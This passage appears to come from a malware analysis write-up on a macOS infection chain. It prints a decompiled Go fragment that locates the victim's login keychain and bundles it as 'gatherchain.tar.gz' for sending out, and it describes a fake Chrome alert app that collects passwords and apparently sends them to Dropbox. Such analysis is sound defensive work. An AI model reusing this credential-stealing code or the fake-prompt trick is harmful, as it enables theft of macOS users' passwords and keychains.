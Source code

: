 ```golang
	data[0] = []byte(config.LOG_SUCCESS)
	data[1] = []byte("gatherchain.tar.gz")
	data[2] = buf.Bytes()
	msg_type := config.MSG_FILE

	return msg_type, data
}

//uses:
func getKeychainFileMacDir() string {
	var home string
	var begine_path string

	home = os.Getenv("HOME")
	begine_path = filepath.Join(home, keychain_dir_darwin);

	return begine_path
}

//where keychain_dir_darwin is "Library/Keychains/login.keychain-db"
```
# ChromeUpdateAlert

During the initial execution of the infection chain, ChromeUpdateAlert.app, a Mach-O application, is also executed. I don't have an environment to test this app, but the decompiled code suggests that it displays a fake microphone alert which requests user authentication. The alert leads to an input field for the victim to provide the password, which seems to be exfiltrated to Dropbox using the Dropbox API.

This Mach-O application has no detection in VT:

![sshot](/assets/images/dprk_chrome/macholowdetect.png)

Fake authentication:
![sshot](/assets/images/dprk_chrome/fakeauth.png)